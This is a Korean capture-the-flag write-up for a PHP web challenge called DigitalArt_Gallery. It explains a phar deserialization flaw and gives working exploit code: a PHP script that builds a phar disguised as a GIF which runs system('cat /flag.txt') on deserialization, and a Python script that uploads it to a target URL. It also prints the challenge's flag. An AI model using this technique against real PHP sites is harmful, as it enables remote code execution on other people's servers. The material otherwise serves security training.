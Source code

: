 # DigitalArt_Gallery

## 출제자명
hy30nq(이현규)

## 컨셉
PHP Phar Deserialization 취약점을 활용한 웹 해킹 문제입니다. phar 파일의 메타데이터는 직렬화된 형태로 저장되며, 파일이 파싱될 때 자동으로 역직렬화가 발생합니다. 이 과정에서 `call_user_func()` 함수를 악용하여 임의 명령어를 실행할 수 있습니다.

## 문제 설명
DigitalArt Gallery는 디지털 아티스트들을 위한 온라인 전시 공간입니다. 사용자들은 GIF 형식의 디지털 아트 작품을 업로드하고 전시할 수 있으며, 큐레이터 모드에서는 작품의 메타데이터와 구조를 심층 분석할 수 있습니다.

## Writeup

### 1. 취약점 분석

`gallery.php`에서 발견되는 취약한 클래스:

```php
class ExhibitionCurator {
    public $command = 'log_exhibition';
    public $message = 'New artwork added to gallery';
    public $special_access = false;
    
    function __destruct() {
        if ($this->special_access) {
            if (function_exists($this->command)) {
                call_user_func($this->command, $this->message);
            }
        }
    }
}
```

`index.php`의 큐레이터 모드에서 `phar://` 프로토콜을 사용하여 파일 분석을 수행합니다.

### 2. 공격 벡터

1. **파일 업로드**: GIF 형식 검증을 우회하여 phar 파일 업로드
2. **큐레이터 모드**: `phar://` 프로토콜을 통한 파일 분석 활성화
3. **Deserialization**: phar 파일의 메타데이터 자동 역직렬화
4. **RCE**: `ExhibitionCurator` 클래스의 `__destruct()` 메소드에서 `call_user_func()` 악용

### 3. 익스플로잇 과정

#### 악성 Phar 파일 생성

```php
<?php
class ExhibitionCurator {
    public $command = 'system';           
    public $message = 'cat /flag.txt';    
    public $special_access = true;      
    
    function __destruct() {
        if ($this->special_access) {
            if (function_exists($this->command)) {
                call_user_func($this->command, $this->message);
            }
        }
    }
}

$phar = new Phar('malicious_artwork.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new ExhibitionCurator());
$phar->stopBuffering();

copy('malicious_artwork.phar', 'evil_art.gif');
?>
```

#### 갤러리에 업로드

웹사이트에서 다음 정보로 작품을 업로드:
- **파일**: `evil_art.gif` (위장된 phar 파일)
- **제목**: `The Abstract Reality`
- **작가**: `H4cker McPaintface`
- **큐레이터 모드**: 체크하기

#### Phar Deserialization 트리거

큐레이터 모드가 활성화되면:
1. `phar://uploads/art_xxx.gif` 경로로 파일 분석 수행
2. `file_exists()` 함수가 phar 파일을 파싱
3. 메타데이터의 `ExhibitionCurator` 객체가 역직렬화
4. `__destruct()` 메소드가 호출되어 `call_user_func('system', 'cat /flag.txt')` 실행

### 4. 자동화 스크립트

```python
#!/usr/bin/env python3
import sys
import requests
import subprocess
import re

if len(sys.argv) != 2:
    print("Usage: python3 gallery_exploit.py <target_url>")
    sys.exit(1)

target_url = sys.argv[1].rstrip('/')

# phar 파일 생성
result = subprocess.run(['php', '-d', 'phar.readonly=0', 'create_malicious_artwork.php'], 
                      capture_output=True, text=True)

if result.returncode != 0:
    print("Failed to create phar file")
    sys.exit(1)

# 익스플로잇 실행
with open('evil_art.gif', 'rb') as f:
    files = {'artwork': ('evil_art.gif', f, 'image/gif')}
    data = {
        'submit_artwork': 'upload',
        'title': 'The Abstract Reality',
        'artist': 'H4cker McPaintface',
        'curator_mode': '1'
    }
    
    response = requests.post(target_url, files=files, data=data, timeout=10)
    flag_match = re.search(r'SSD\{[^}]+\}', response.text)
    
    if flag_match:
        print(flag_match.group(0))
    else:
        print("Flag not found")
```

### 5. 플래그
```
SSD{d1g1t4l_4rt_phar_m4g1c_curAt0r_m0de}
```

### 6. 참고 자료
- https://www.hahwul.com/blog/2018/phar-php-deserialization-vulnerability/
- https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization